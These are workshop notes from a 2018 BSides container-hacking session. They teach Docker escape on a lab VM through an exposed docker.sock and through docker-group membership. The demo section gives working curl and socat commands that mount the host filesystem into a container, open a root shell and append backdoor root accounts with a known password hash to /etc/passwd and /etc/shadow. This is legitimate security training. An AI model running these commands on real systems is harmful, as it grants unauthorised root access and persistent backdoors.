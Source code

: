BSides Charleston  
Container Hacking Workshop  
9 November 2018  
Cory Sebol - Secure Ideas  
[https://github.com/ProfessionallyEvil/Pequod](https://github.com/ProfessionallyEvil/Pequod)  
[https://github.com/ProfessionallyEvil/harpoon](https://github.com/ProfessionallyEvil/harpoon)  

### Setup

- Download the VM
- Extract zip archive
- Import .ova into VirtualBox
- Change network adapter of the container to host-only
- Start VM
- Login
    - Username: ahab
    - Password: vagrant

### Container vs. VM

Container:
- Lightweight, isolation
- reproducible
- No hypervisor
- Share kernel with host, host kernel manages resources
- Built from kernel primitives
    - Namespaces
    - Cgroups
    - Seccomp-bpf
- Scalability
VM:
    - Resource-intensive, isolation
    - Hypervisor
    - Separate kernel from host OS

### Docker

Tool to manage, create, interface with containers. Backed by libcontainer (as default driver). Docker CLI communicates with Docker daemon via the docker.sock unix socket.

#### Attack Vectors

- **Exposed docker.sock socket** can receive RESTful messages and relay them to docker daemon (which runs as root)
- **Low privilege user in Docker group** (even a low privilege user can elevate to root access)
- **Exposed container admin services** that use Docker socket to orchestrate, monitor containers

### Demo

Log in to the container (or, SSH from your localhost terminal with `ssh ahab@192.168.56.101`).  
`docker ps` to see docker containers running.

#### 1. Poking the Docker socket

Set up docker sock mount image:  
`docker run --rm -v /var/run/docker.sock:/var/run/docker.sock docker_sock_mount`: `--rm` remove once finished, `-v` for vine mount  

Attach to this socket container with  
`docker exec -it docker_sock_mount /bin/bash`: `-it` to get a terminal  
Now you are root on that container:  
Command prompt is `root@933af91f48a3:/#`, where the user is `root` and the hash on the right matches the `docker_sock_mount` container hash from `docker ps`.

Commands we will use today mostly come from the harpoon repo (linked at the top of the document).  
Look for docker cgroup or Cloudfoundry garden cgroup: `grep -E -i ":/docker/|:/garden/" /proc/1/cgroup`  
Look for the docker socket if it was (stupidly) mounted: `find "/" 2>&1 | grep -E "(.*\/docker\.sock|^docker\.sock)$"`

Get ready to mount a container onto the exposed socket:  
```
export CONTAINER_JSON='{"Image":"ubuntu","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/mnt"}]}'  
curl -s -XPOST -H 'Content-Type: application/json' --unix-socket /run/docker.sock -d $CONTAINER_JSON http://localhost/containers/create
```
This returns the following:  
`{"Id":"f03d118a4febc869969b1e7bf52779fe603add443bae1bd07c2d28fce816aebb","Warnings":null}`  
We will need this ID hash later (e.g. DOCKER\_CONTAINER\_ID="[the hash]"). We can also store the socket path in an environment variable (DOCKER\_SOCK\_PATH="/run/docker.sock").  

Next, let's see if there are any interesting containers.  
`curl -s -XGET --unix-socket /run/docker.sock http://localhost/containers/json 2>&1`  
This returns a JSON description of every container running on the host.  

(Side note: pretty print JSON in vim with `%! python -m json.tool`)

Start the container we created earlier:  
`curl -XPOST --unix-socket /run/docker.sock http://localhost/containers/$DOCKER_CONTAINER_ID/start`   

Now let's attach to it with a shell:  
`socat - UNIX-CONNECT:$DOCKER_SOCK_PATH`  

This command should hang, waiting for us to send it some HTTP headers:
```
POST /containers/$DOCKER_CONTAINER_ID/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
EOM
```

The shell should return the following:
```
HTTP/1.1 101 UPGRADED  
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp
```

Now we've got a shell! Note also by running `id` that we are root. Remember that we mounted the container into `/mnt`. 
We can read all the password hashes: `cat /mnt/etc/passwd`.  
We can add a user and password to backdoor the system:  
```
mkpasswd -m sha-512 -S 12345678 -s <<< password # run this somewhere to get the hash of the password "password"
# this has been done for you and the resulting hash is shown below, echoed into the shadow file

echo 'toor:x:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
echo 'toor:$6$12345678$I8tr4xFAC6/TtjYWdp0LWEjQre2LcYm2jdSMNLQDIyqRv.cKo7KMD5/HpzVVFKpUQlIekr/Vw.OdImtRM85fg/:17697:0:99999:7:::' >> /mnt/etc/shadow
```

Exit the HTTP shell to go back to the container shell, exit back to ahab, and we can `su toor` with our backdoor password. Now we're root! (You can verify this by typing `id` in the resulting command prompt.)

Exit the su shell back to ahab. This machine also has a user `ishmael` with basically no privileges.
```
sudo su ishmael # don't need password because he's in ahab's su list, but if you want to know, his password is moby
cat /etc/shadow #this fails because he has no privileges
id
groups #aha! He's in the docker group! (second attack vector)
```

Now let's connect to the container with the mounted filesystem from before.  
```
docker run --rm -it -v /:/mnt ubuntu
echo 'ruut:x:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
echo 'ruut:$6$12345678$I8tr4xFAC6/TtjYWdp0LWEjQre2LcYm2jdSMNLQDIyqRv.cKo7KMD5/HpzVVFKpUQlIekr/Vw.OdImtRM85fg/:17697:0:99999:7:::' >> /mnt/etc/shadow
exit

su ruut 
# enter the backdoored password
# we're a root user again!
id
```

Exit back to `ahab`.
```
docker ps
```
Now try to exploit the `docker_php_app` container.

#### Learn more
Twitter: @84d93r  
Email: cory@secureideas.com  
Blog: blog.secureideas.com  
Upcoming container hacking webcast: [wwww.secureideas.com/classes/index.html](wwww.secureideas.com/classes/index.html)  
